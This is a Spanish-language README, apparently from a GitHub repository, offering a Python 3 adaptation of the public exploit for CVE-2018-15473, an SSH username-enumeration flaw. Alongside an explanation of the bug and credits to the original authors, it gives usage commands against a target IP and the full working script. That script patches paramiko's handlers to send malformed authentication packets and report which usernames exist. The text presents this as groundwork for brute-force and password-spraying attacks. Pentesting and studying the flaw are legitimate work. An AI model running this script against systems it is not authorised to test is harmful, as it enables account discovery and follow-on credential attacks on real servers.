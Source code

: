 # CVE-2018-15473 – Enumeración de usuarios SSH

## Información general

Este documento recoge la explotación de la vulnerabilidad **CVE-2018-15473**, que afecta al servicio SSH y permite enumerar usuarios válidos en un sistema remoto.  
El fallo se debe a la manera en que el servidor responde de forma diferente cuando el usuario existe o no durante el proceso de autenticación.

## Créditos

El exploit original fue desarrollado por **Matthew Daley, Justin Gardner y Lee David Painter**.  
Nuestra versión está **adaptada a Python 3** para que pueda ejecutarse en sistemas actuales sin necesidad de instalar Python 2.

## Contexto de la vulnerabilidad

Cuando realizamos una autenticación SSH, el servidor responde de forma distinta si el usuario no existe que si existe pero la clave es inválida. Esta diferencia en el flujo de mensajes permite realizar un ataque de enumeración de usuarios de manera remota.

Este tipo de vulnerabilidad se aprovecha en fases tempranas de un pentest, ya que conocer usuarios válidos nos ayuda posteriormente a realizar ataques de fuerza bruta, password spraying o a buscar credenciales filtradas en fuentes públicas.

## Dependencias

Antes de ejecutar el exploit debemos instalar `paramiko` en Python 3:

```bash
pip install paramiko
```

---

## Uso

La sintaxis básica es la siguiente:

```bash
python3 ssh_enum.py <target> -p <port> <username>
```

Ejemplo:

```bash
python3 ssh_enum.py 192.168.1.74 -p 22 root
```

- Si el usuario existe → `[+] root es un usuario válido
    
- Si el usuario no existe → `[-] root no es un usuario válido

---

## Script adaptado a Python 3

```python
#!/usr/bin/env python3
# CVE-2018-15473 SSH User Enumeration by Leap Security (@LeapSecurity) https://leapsecurity.io
# Original credits: Matthew Daley, Justin Gardner, Lee David Painter
# Adaptado a Python3 para compatibilidad y uso actual

import argparse, logging, paramiko, socket, sys, os

class InvalidUsername(Exception):
    pass

# malicious function to malform packet
def add_boolean(*args, **kwargs):
    pass

# function that'll be overwritten to malform the packet
old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[
        paramiko.common.MSG_SERVICE_ACCEPT]

# malicious function to overwrite MSG_SERVICE_ACCEPT handler
def service_accept(*args, **kwargs):
    paramiko.message.Message.add_boolean = add_boolean
    return old_service_accept(*args, **kwargs)

# call when username was invalid
def invalid_username(*args, **kwargs):
    raise InvalidUsername()

# assign functions to respective handlers
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = service_accept
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = invalid_username

# perform authentication with malicious packet and username
def check_user(username):
    sock = socket.socket()
    sock.connect((args.target, int(args.port)))
    transport = paramiko.transport.Transport(sock)

    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        print('[!] Fallo en la conexión SSH')
        sys.exit(2)

    try:
        transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
    except InvalidUsername:
        print(f"[-] {username} no es un usuario válido")
        sys.exit(3)
    except paramiko.ssh_exception.AuthenticationException:
        print(f"[+] {username} es un usuario válido")

# remove paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

parser = argparse.ArgumentParser(description='SSH User Enumeration by Leap Security (@LeapSecurity) - Adaptado a Python3 por Metahumo')
parser.add_argument('target', help="Dirección IP del sistema objetivo")
parser.add_argument('-p', '--port', default=22, help="Introduce puerto SSH")
parser.add_argument('username', help="Usuario que se quiere validar")

if len(sys.argv) == 1:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

check_user(args.username)
```

---

